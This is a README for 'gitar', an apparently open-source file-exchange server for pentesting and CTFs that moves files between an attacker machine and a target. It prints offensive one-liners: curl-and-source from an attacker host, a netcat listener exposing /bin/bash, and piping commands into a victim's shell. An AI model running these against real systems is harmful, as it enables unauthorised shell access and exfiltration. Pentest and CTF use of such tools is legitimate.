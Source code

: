 <div align=center>
<h1>gitar</h1>
<img src=https://github.com/ariary/gitar/blob/main/img/gitar-logo.png width=150>
	
<strong>📡 A more sophisticated python HTTP server sibling <br>🎸 with even simpler interactions for file exchange (Pentest/CTF) </strong>
<br>
</div>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** from my attacker machine: `pull [file]`
 - **Download a directory** from my attacker machine: `pullr [directory]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a directory** to my attacker machine: `pushr [directory]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivity between attacker & target machines
* On target machine: `curl` 
	* `tar` for directory upload 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### 🎸 Launch `gitar` server 
 
On **Attacker machine**: 
```shell
gitar
```

On **Target machine**:

```shell
# Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. 
# It is also provided by step 1. (in gitar output):
curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias
```

**And that's all, you can now `push` or `pull` file [🎶](#tldr---and-listen-music)**

 <sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)</sup>

### 🐋 Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

*To use container image, you have to built it from ` Dockerfile`: `make build.gitar.image`*

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

On **Attacker machine**: 
```shell
docker run -it --rm --cap-drop=all -v "${PWD}:/gitar/exchange" ariary/gitar
```


On **Target machine**:

Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

*⚠️: to enable host volume in container we must (?) use root user within*

<sup>[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)</sup>


## Install

```shell
go install github.com/ariary/gitar@latest
```

## Bonus

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

On **Target machine**:
```shell
# Launch your classic listener
nc -nvlp 4444 -e /bin/bash
```

On **Attacker machine**:

1. Launch `gitar`server : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
2. Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `[CTRL+V]` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not benefit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**


	
	
